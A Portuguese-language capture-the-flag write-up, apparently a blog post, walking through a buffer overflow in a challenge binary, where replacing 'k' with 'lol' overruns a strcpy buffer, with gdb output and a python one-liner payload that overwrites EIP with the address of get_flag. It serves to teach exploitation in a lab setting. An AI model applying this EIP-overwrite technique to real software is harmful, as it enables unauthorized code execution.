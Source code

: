 ```yaml
---
layout: post
title: Pwn0
categories:
  - Hack a flag aracaju
published: true
---
```

Link para pwn3:
https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3

Ao se executar o pwn pela primeira vez e tentar fazer um overflow enviando um monte de A's para a pergunta "Qual seu nome?", percebi que ele limitava a quantidade de caracteres que eram impressos.

Uma proteção contra overflow? Agora o negócio tava mais complicado que os outros dois pwn.

Mas por acaso, antes de analisar o pwn no gdb ou objdump, percebi que ele substituia qualquer "k" (apenas minusculo) por "lol" e com k's suficientes os lol estouravam o espaço reservado para eles e passariam por cima de tudo, causando um buffer overflow. 
(Acho que o conhecimento que isso passa é de que sempre se deve testar qualquer tipo de INPUT para verificar falhas em um programa)

Abrindo o pwn no gdb e mandando um info functions, achei 4 funções que eram interessantes:

0x08048f13  get_flag
0x08048f21  replace
0x080491af  vuln
0x0804932d  main

Coloquei breakpoints em todas (b replace, b vuln, b main, b get_flag) e coloquei o pwn pra rodar (run).

Primeiro breakpoint para em main, função principal do programa (pouca novidade aqui). Uso o comando disas main e tento analisar o código (tô longe de saber muito de asm), entendi que main, basicamente só serve pra chamar a função vuln.

   0x08049333 <+6>:     call   0x80491af <vuln>

Com o comando c, mando pwn continuar. E, como imaginei, ele para em vuln. Tento analisar o código da função usando disas vuln, mas a coisa fica um pouco complicada por causa do meu pouco conhecimento de asm. Mesmo assim, compreendo algumas linhas e conclui que vuln era responsável por imprimir a mensagem perguntando do nome, copiar o que a função replace retornar, para o buffer vulnerável usando a perigosa função strcpy, e então imprimir na tela o resultado. Só lembrando que isso tudo eram suposições (boa parte baseadas nas chamadas para funções que vi no código, tipo printf, fgets, call para replace, strcpy...)., já que meu conhecimento em asm (AINDA) 
não é suficiente. 

Como o código de vuln já mostrava, quando mandei o GDB continuar, surgiu a mensagem pedindo para digitar o nome. Depois de digitar qualquer coisa e teclar enter, o breakpoint em replace faz efeito. 

Analisar a função replace foi mais complicado. A conclusão que tirei, por achismo, é que ela fica responsável por varrer a string em busca de K's e, caso encontre, substitua por lol. E provavelmente retorne a string modificada.

Instruindo o gdb a continuar, vi que o programa finaliza exibindo a mensagem e só isso.

Então executei o programa novamente no gdb (usando o comando run), mas dessa vez meti um monte de k's no lugar do meu nome.
Aí, depois de mandar o pwn continuar após o breakpoint em replace, o gdb me mostra:

Program received signal SIGSEGV, Segmentation fault.
0x6f6c6c6f  in ?? ()

6f6c6c6f = ollo em hex, o que significa que temos meios lol's em eip, o que significa que podemos sobreescreve-lo com coisa mais útil. Tipo o endereço de get_flag.

Eu aposto que deve haver um jeito mais prático, mas no calor do ctf, fui manualmente testando quantos k's eram necessários para chegar em EIP. De k em k, descobri que 22 k's corrompem eip com um ol, meio lol. Então usei 21 k's mais um caractere qualquer (usei o l no dia) e 4 A's.

Oi, lollollollollollollollollollollollollollollollollollollollollollAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

Achei onde pôr o endereço de get_flag ;D

Para testar a solução, usei o python para criar um arquivo que serviria de entrada para pwn: 
python -c 'print "k"*21 + "l" + "\x13\x8f\x04\x08"' > input

Obs: eu já tinha anotado o endereço de get_flag (0x08048f13) depois de analisar as funções no gdb, imaginei que seria útil. E, como sabemos que a regra usada nesse caso para manipulação de armazenamento na memória é Little Endian, invertemos o endereço: 08 04 8f 13 vira 13 8f 04 08.

Para ver se tudo funcionava, no gdb com pwn3, coloquei um breakpoint apenas em get_flag. Então rodei o programa e redirecionei a entrada para o arquivo input, assim, ele iria ler o conteúdo do arquivo e usar como resposta para a pergunta "Qual seu nome?".

(gdb) run < input
Starting program: /home/update/pwn3 < input
Qual seu nome? Oi, lollollollollollollollollollollollollollollollollollollollolloll▒


Breakpoint 1, 0x08048f13 in get_flag ()

Missão cumprida. EIP apontava para get_flag.

(gdb) c
Continuando.
cat: flag.txt: Arquivo ou diretório não encontrado

Program received signal SIGSEGV, Segmentation fault.
0x08048f1f in get_flag ()

Agora bastava explorar o pwn que estava rodando em algum ip dentro da rede do hack a flag e ver o contéudo do arquivo flag.txt ;)

EOF
